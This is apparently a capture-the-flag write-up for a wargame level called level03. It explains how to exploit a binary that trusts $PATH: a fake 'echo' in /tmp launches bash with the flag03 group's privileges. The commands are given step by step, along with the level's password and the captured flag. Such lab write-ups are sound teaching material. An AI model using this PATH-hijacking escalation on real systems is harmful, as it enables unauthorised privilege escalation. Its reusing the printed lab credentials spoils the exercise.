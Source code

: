 # level03

## Vulnerability: $PATH trickery

level03's password: `kooda2puivaav1idi4f57q8iq`

1. examinate existing files and permissions

```bash
ls -la
```

shows that the level03 executable belongs to flag03 group, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```sh
scp -P 4242 level03@<host>:level03 .
retdecomp level03
```

shows geteuid() and getegid(), meaning that the binary is running as flag03

4. Exploit env vars usage by changing `$PATH` and making the binary run your prefered program (I chose bash)

```bash
PATH=/tmp:$PATH
echo /bin/bash > /tmp/echo
chmod +x /tmp/echo
```

5. Execute the original binary and pwn flag

```bash
./level03
getflag
```

gives flag: `qi0maab88jeaj46qoumi7maus`
